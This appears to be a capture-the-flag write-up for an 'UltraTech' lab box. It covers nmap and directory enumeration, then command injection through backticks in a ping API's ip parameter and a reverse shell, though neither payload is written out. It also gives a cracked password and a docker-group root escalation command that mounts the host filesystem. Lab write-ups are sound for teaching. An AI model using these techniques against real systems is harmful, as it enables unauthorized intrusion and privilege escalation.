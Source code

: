 # Introduction

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx ultratech.thm
```

# Enumeration

we do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -p- -sV ultratech.thm
```

we got these open ports
```bash
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
8081/tcp  open  http    Node.js Express framework
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

# FTP (port 21)
we'll try to connect to the FTP server with anonymous account
```bash
$ ftp ultratech.thm                                                                                    
Connected to ultratech.thm.
220 (vsFTPd 3.0.3)
Name (ultratech.thm:kali): anonymous
331 Please specify the password.
Password: 
530 Login incorrect.
```

it's not working, let's move to next

# Node.js (port 8081)
we found that there is an api running on port 8081 (custom one ?) : UltraTech API v0.1.3\
we do a feroxbuster and find some interisting URL :
http://ultratech.thm:8081/auth
http://ultratech.thm:8081/ping

in auth, if we send a GET request with login and password as query parameters, we have invalid credentials\
the /ping/ url is interisting : we can set a query parameter ip and it pings the ip\
maybe we can inject one command

# HTTP (port 31331)
we found a robots.txt
```bash
Allow: *
User-Agent: *
Sitemap: /utech_sitemap.txt
```

if we visit the /utech_sitemap.txt
```bash
/
/index.html
/what.html
/partners.html
```

we exploit the ping API with using the ``` ` ``` char that is interpreted as bash and not filtered\
we do a reverse shell

we found a file 
we crack the password of r00t that is : n100906

finally we found that r00t user is in docker group so we can privesc
```sh
r00t@ultratech-prod:~$ groups
r00t docker
r00t@ultratech-prod:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
bash                latest              495d6437fc1e        4 years ago         15.8MB
```

and we are finally root on docker, we can access filesystem by browsing to /mnt
```bash
r00t@ultratech-prod:~$ docker run -v /:/mnt -it bash
bash-5.0#
```
